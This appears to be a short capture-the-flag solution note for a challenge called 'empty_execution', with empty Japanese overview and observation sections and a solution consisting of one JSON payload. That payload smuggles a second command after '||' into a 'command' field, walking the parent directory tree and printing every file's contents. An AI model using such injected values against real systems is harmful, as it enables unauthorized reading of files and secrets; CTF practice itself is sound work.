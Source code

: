 ```yaml
---
tags:
createdAt: 2024/02/23
---
```


# empty_execution

## 概要

## 観察

## 解法

```json
{
    "command": ". || find $(dirname $(pwd)) | xargs -I{} cat {}"
}
```
